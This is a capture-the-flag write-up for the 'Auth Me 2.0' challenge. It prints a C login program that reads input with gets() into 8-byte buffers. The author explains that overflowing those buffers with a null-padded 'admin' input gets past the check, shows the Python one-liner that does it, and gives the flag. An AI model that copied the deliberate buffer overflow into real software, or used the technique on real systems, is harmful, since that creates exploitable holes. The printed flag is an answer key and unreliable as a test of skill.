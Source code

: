 # Auth Me 2.0

***

<figure><img src="../../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

***

### Solution

Review the given c code

<pre class="language-c" data-title="auth_me2.c" data-line-numbers><code class="lang-c">#include &#x3C;stdio.h>
#include &#x3C;stdlib.h>
#include &#x3C;string.h>
#include &#x3C;signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void setup(){
  FILE *f = fopen("flag.txt","r");
  fgets(flag,FLAGSIZE_MAX,f);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
}

int main(int argc, char **argv){
  setup();
  char user[8];
  char pass[8];
  printf("Authenticate Me 2.0\n");
  printf("--------------------------------\n");
  printf("Enter your username: ");
  gets(user);
<strong>  if(strcmp(user,"admin") == 0){
</strong><strong>    printf("Don't pretent you're admin =(\n");
</strong><strong>    return 0;
</strong><strong>  }
</strong>  printf("Enter your password: ");
  gets(pass);
  if(strcmp(user,"admin") == 0 &#x26;&#x26; strcmp(pass,"admin") == 0){
    printf("Welcome admin! Here is your flag: %s",flag);
  }else if(strcmp(user,"user") == 0 &#x26;&#x26; strcmp(pass,"user") == 0){
    printf("Welcome %s! You're authenticated!\n");
  }else{
    printf("Invalid Username %s or Password %s\n",user,pass);
    printf("Hint: Distance between user and pass is %i\n",user-pass);
  }
  return 0;
}
</code></pre>

This challenge is similar to Auth Me 1, but it checks for username `admin` at line 25. We have given _**Tips: Press ctrl + shift + @ to enter null character.**_&#x20;

Now, i know that we must play with some null character that looks like this `\x00`. In C Language, program will stop reading until it finds a null character. We cannot input `admin\x00` as the program will read it as string.

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

Btw, the program give us a hint that the distance between variable `user` and `pass` is **8**. So, i try to overflow the variable `user` with 8 bytes like this `admin\x00\x00\x00` <- \x00 is 1 byte ya.

This is the python one line command that i figure out.

```bash
python3 -c "print('\nadmin'+('\x00' * 3)+'admin')" | ./auth2
```

Using that, we can get the flag :checkered\_flag:

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

***

### Flag

SKR{C\_St0p\_rE4dinG\_untIL\_nuLL\_4b4b8e}
